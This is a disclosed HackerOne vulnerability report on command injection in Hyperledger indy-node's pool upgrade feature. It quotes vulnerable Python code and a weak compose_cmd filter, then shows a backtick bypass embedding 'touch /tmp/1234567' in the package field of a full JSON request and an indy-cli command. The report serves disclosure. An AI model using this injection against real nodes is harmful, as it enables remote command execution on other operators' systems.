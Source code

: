 # [indy_node]POOL_UPGRADE command injection, Trustee Node can execute command in any other Node`s system.

## Report Details
- **Report ID**: 1859592
- **URL**: https://hackerone.com/reports/1859592
- **State**: Closed
- **Severity**: none
- **Submitted**: 2023-02-02T14:44:12.257Z
- **Disclosed**: 2023-04-27T14:48:14.887Z

## Reporter
- **Username**: kmhlyxj0
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: hyperledger

## Vulnerability Information
After I finish my report, I found project this is not part of the bounty program, so I also commit this report. This issue is related to the [https://github.com/hyperledger/indy-node](https://github.com/hyperledger/indy-node).

I found some function such as get_latest_pkg_version/_call_upgrade_script has  command injection vulnerability. 
node_control_utils.py:
```python
    def get_latest_pkg_version(cls,pkg_name: str,upstream: SourceVersion = None, update_cache: bool = True) -> PackageVersion:
        ...
        try:
            cmd = compose_cmd(
                ['apt-cache', 'show', pkg_name, '|', 'grep', '-E', "'^Version: '"]
            )
            output = cls.run_shell_script_extended(cmd).strip()
    ...
```
node_control_noe.py:
```python
    def _call_upgrade_script(self, pkg_name: str, pkg_ver: PackageVersion):
        logger.info(
            "Upgrading {} to package version {}, test_mode {}"
            .format(pkg_name, pkg_ver, int(self.test_mode))
        )

        deps = self._get_deps_list('{}={}'.format(pkg_name, pkg_ver))
        deps = '"{}"'.format(deps)

        cmd_file = 'upgrade_indy_node'
        if self.test_mode:
            cmd_file = 'upgrade_indy_node_test'

        cmd = compose_cmd([cmd_file, deps])
        NodeControlUtil.run_shell_script(cmd, timeout=self.timeout)
```
A Trustee can input a malicious package name to trigger this code.  There are two conditions for package name:
1. Valid package name prefix, here I choose `indy-node`.
2. Valid package version. Input value of version must bigger or equals than old version. If `reinstall` set to true, version can equal with the old version.
3. bypass the fileter function `compose_cmd`. I found  some special characters  filtered in `compose_cmd` , that is `;|&&`:
```python
def compose_cmd(cmd):
    if os.name != 'nt':
        cmd = ' '.join(cmd)
        cmd = re.split(";|&&", cmd.splitlines()[0], 1)[0].rstrip()
    return cmd
```
But the special character \`, is still valid to inject command. So I can input a package name , for example: indy-node2 \`touch /tmp/12345678\` . Finally The malicious POOL_UPGRADE request looks as follows:
```json
{
    "identifier": "V4SGRU86Z58d6TV7PBUe6f",
    "operation": {
        "action": "start",
        "name": "test",
        "package": "indy-node2 `touch /tmp/1234567`",
        "schedule": {
            "Gw6pDLhcBcoQesN72qfotTgFa7cbuqZpkX3Xo6pLhPhv":"2023-02-02T15:30:05.258870+00:00",
            "8ECVSk179mjsjKRLWiQtssMLgp6EPhWXtaYyStWPSGAb":"2023-02-02T17:32:05.258870+00:00",
            "DKVxG2fXXTU8yT5N7hGEbXB3dfdAnYv1JczDUHpmDxya":"2023-02-02T14:31:05.258870+00:00",
            "4PS3EDQ3dW1tci1Bp6543CfuuebjFrg36kLAUcskGfaA":"2023-02-02T19:39:05.258870+00:00"
        },
        "sha256": "db34a72a90d026dae49c3b3f0436c8d3963476c77468ad955845a1ccf7b03f55",
        "type": "109",
        "reinstall": true,
        "version": "1.12.6"
    },
    "protocolVersion": 2,
    "reqId": 1651152851,
    "signature": "4YoXKHNnWRouTUAW4fKuTANnXNJfY2JoPG4PoXfz4PUzjx4NySrAmzkzy6zCiRRf5uczZx5mQVSm1eCZLnUHUDoT"
}
```
Step to reproduce(use indy-cli):
1. use indy-cli, Use a `TRUSTEE` DID:

{F2150453} 

2. Run ledger pool_upgrade command, such as:

```
ledger pool-upgrade name="security_test2" version=1.12.6 action=start sha256=f284bdc3c1c9e24a494e285cb387c69510f28de51c15bb93179d9c7f28705398 schedule={"Gw6pDLhcBcoQesN72qfotTgFa7cbuqZpkX3Xo6pLhPhv":"2023-02-02T15:30:05.258870+00:00","8ECVSk179mjsjKRLWiQtssMLgp6EPhWXtaYyStWPSGAb":"2023-02-02T14:32:05.258870+00:00","DKVxG2fXXTU8yT5N7hGEbXB3dfdAnYv1JczDUHpmDxya":"2023-02-02T13:31:05.258870+00:00","4PS3EDQ3dW1tci1Bp6543CfuuebjFrg36kLAUcskGfaA":"2023-02-02T12:53:05.258870+00:00"} package="indy-node `touch /tmp/1234567`" reinstall=true
```
3. wait for schedule, you can what happend in `/var/log/indy/node_control.log`:

{F2150481}

## Impact

A Trustee Node can execute command in any other Node`s system.

## Attachments
- image.png
- image.png
